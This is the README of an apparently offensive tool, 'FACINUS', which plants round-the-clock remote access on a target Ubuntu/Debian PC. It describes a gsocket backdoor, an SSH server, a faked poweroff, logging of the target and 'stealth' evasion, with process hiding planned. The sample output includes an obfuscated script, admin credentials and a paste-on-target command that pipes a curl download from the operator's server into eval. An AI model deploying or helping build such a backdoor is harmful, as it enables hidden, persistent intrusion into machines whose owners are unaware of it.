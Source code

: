 ## FACINUS - set a 24/7 access on a Ubuntu PC you have access to with [gsocket](https://www.gsocket.io/) and other features

This script is setting up an Apache server on your Arch based linux distro and targets Ubuntu/Debian.

## Features
- **SSH**: Set up SSH server on target to quickly access from internal network.
- **WOL**: Check for wake-on-lan availability, to be able to wake any other pc's on network which ran the script.
- **24/7**: Fake a poweroff to keep the PC running 24/7.
- **Log**: Logs everything on your server.
- **gsocket**: Set up a gsocket service on target to access the server from anywhere.
- **Stealth**: Simple evading techniques to avoid detection.

## Installation
For now this script doesn't have checks for other distros than Arch based with pacman package manager. I'll add more checks later.
You just have to run the install script that will setup everything automatically for you.
```
./install
```

## Web Interface
After running the script you'll see something like this:
```
./install
[sudo] password for elleoma: 
Obfuscated script created.
==============================================================
Deployment server setup complete!
==============================================================
Server URL: http://192.168.0.131/deployment
Admin Page: http://192.168.0.131/deployment/admin.php
Admin Password: 2cn2lguMIdx9
Client Setup Command: eval "$(curl -fsSL http://192.168.0.104/deployment/y)"
==============================================================
Secret Token for accessing logs: NTVEYJWTYAk5OolAAKYodaSjPWKaKb4X
==============================================================
```
After accessing url you'll see a simple commands to copy and paste on the target.
On the admin panel you can check the logs and the secrets for gsocket access.

![image](https://github.com/elleoma/facinus/screenshots/admin.png)

## TODO
- [ ] Add checks for other distros
- [ ] Fix fake poweroff
- [ ] Obfuscation, process hiding, etc.
- [ ] Ability to install common precompiled binaries on a target without root access.
- [ ] Add options to the script (no root, no services, etc.)
